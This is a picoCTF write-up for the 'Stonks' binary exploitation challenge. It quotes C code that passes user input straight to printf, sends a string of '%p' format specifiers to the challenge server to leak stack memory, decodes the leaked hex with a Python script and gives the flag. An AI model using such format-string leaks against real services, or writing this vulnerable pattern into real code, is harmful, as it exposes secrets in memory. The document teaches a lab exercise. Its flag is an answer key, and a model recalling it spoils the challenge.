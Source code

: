 # Stonks

DISCLAIMER: I got big hints from a friend. There is no way I'd have been able to solve this 😅. I'm also not entirely sure how exactly this challenge worked... I'm not qualified to write a writeup for this challenge 😅.

## Overview:

Category: Binary Exploitation
Points: 20

## Description

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](./vuln.c) `nc mercury.picoctf.net 53437`

## Hints

1. Okay, maybe I'd believe you if you find my API key.

## Stuff I Was Told (Since Pico is Over)

* Print pointers
* 👀 carefully
* That block of code pasted below

## Approach

Connect to the shell with `nc mercury.picoctf.net 53437`

Take a look at 

```c
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```

and notice the `printf(user_buff);` (I was kinda directed to this so I'm not entirely sure why it's this specifically that's important).

```bash
What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Buying stonks with token:
0x8b953900x804b0000x80489c30xf7fa5d800xffffffff0x10x8b931600xf7fb31100xf7fa5dc7(nil)0x8b941800x20x8b953700x8b953900x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x346364620x616535320xffbd007d
Portfolio as of Thu Apr  8 01:52:11 UTC 2021


2 shares of H
5 shares of AF
34 shares of O
25 shares of SOF
229 shares of YQWO
Goodbye!
```

This part:

```text
0x8b953900x804b0000x80489c30xf7fa5d800xffffffff0x10x8b931600xf7fb31100xf7fa5dc7(nil)0x8b941800x20x8b953700x8b953900x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x346364620x616535320xffbd007d
```

looks like hex. I reformatted it in notepad (and also took out everything before `(nil)` while I guess was padding or something):

```text
8b9418028b953708b953906f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3463646261653532ffbd007d
```

and jammed it into [HxD](https://mh-nexus.de/en/hxd/) which gives:

```text
‹”‹•7¹Socip{FTC0l_I4_t5m_ll0m_y_y3n4cdbae52ÿ½�}
```

it looks like `ocip{FTC0l_I4_t5m_ll0m_y_y3n4cdbae52ÿ½�}` is the flag except each 4 character block is reversed (little endian? also this is just a guess, I don't actually know)

I wrote a script to output the proper flag:

```python
string = "ocip{FTC0l_I4_t5m_ll0m_y_y3n4cdbae52ÿ½�}"
out = ""
temp = ""
index = 0
for char in string:
    temp += char
    index += 1
    if index%4 == 0:
        fwd = ""
        for temp_char in temp:
            fwd = temp_char + fwd
        out += fwd
        temp = ""
print(out)
```

this outputted `picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}�½ÿ`

## Flag

picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}

